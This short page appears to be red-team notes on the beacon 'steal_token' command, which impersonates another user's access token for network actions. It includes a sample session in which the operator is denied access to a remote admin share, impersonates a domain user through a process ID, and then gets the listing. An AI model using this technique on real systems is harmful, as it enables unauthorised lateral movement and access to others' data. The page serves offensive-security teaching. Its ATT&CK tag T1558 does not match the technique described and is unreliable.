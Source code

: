 # Steal Token
The `steal_token` command will impersonate the access token of the target process. Like `make_token`, only for network, not local actions.

This command opens a handle to another users target process in order to duplicate and impersonate the access token, and therefore requires local admin privileges.
``````beacon
beacon> ls \\srv2\c$
[-] could not open \\srv2\c$\*: 5

beacon> steal_token 3320
[+] Impersonated EDU\doe

beacon> ls \\srv2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 dir     05/10/2022 04:11:30   $Recycle.Bin
 dir     05/10/2022 03:23:44   Boot
 ``````

## Tools
########
########


```meta
ttp: T1558
requirements: admin
results: 
description: 
```
